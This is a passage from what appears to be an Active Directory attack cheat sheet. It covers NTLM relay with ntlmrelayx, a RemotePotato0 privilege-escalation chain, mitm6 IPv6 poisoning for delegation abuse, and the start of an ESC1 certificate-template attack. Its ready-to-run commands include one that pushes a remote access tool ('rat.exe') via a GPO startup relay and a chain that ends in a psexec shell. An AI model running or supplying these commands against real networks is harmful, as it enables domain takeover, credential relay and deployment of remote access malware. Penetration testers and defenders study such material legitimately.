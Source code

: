 ```powershell
ntlmrelayx -smb2support --no-smb-server --gpotato-startup rat.exe
```

#### RemotePotato0 DCOM DCE RPC relay 

> It abuses the DCOM activation service and trigger an NTLM authentication of the user currently logged on in the target machine

Requirements:
- a shell in session 0 (e.g. WinRm shell or SSH shell)
- a privileged user is logged on in the session 1 (e.g. a Domain Admin user)

```powershell
# https://github.com/antonioCoco/RemotePotato0/
Terminal> sudo socat TCP-LISTEN:135,fork,reuseaddr TCP:192.168.83.131:9998 & # Can be omitted for Windows Server <= 2016
Terminal> sudo ntlmrelayx.py -t ldap://192.168.83.135 --no-wcf-server --escalate-user winrm_user_1
Session0> RemotePotato0.exe -r 192.168.83.130 -p 9998 -s 2
Terminal> psexec.py 'LAB/winrm_user_1:Password123!@192.168.83.135'
```


#### Relay delegation with mitm6

Requirements: 
- IPv6 enabled (Windows prefers IPV6 over IPv4)
- LDAP over TLS (LDAPS)

> ntlmrelayx relays the captured credentials to LDAP on the domain controller, uses that to create a new machine account, print the account's name and password and modifies the delegation rights of it.

```powershell
git clone https://github.com/fox-it/mitm6.git 
cd /opt/tools/mitm6
pip install .

mitm6 -hw ws02 -d lab.local --ignore-nofqnd
ntlmrelayx.py -t ldaps://dc01.lab.local --delegate-access --no-smb-server -wh attacker-wpad
then use rubeus with s4u to relay the delegation
```


### Active Directory Certificate Services

#### ESC1 - Misconfigured Certificate Templates

> Domain Users can enroll in the **VulnTemplate** template, which can be used for client authentication and has **ENROLLEE_SUPPLIES_SUBJECT** set. This allows anyone to enroll in this template and specify an arbitrary Subject Alternative Name (i.e. as a DA). Allows additional identities to be bound to a certificate beyond the Subject.

Requirements:
*  Template that allows for AD authentication
* **ENROLLEE_SUPPLIES_SUBJECT** flag
* [PKINIT] Client Authentication, Smart Card Logon, Any Purpose, or No EKU (Extended/Enhanced Key Usage) 
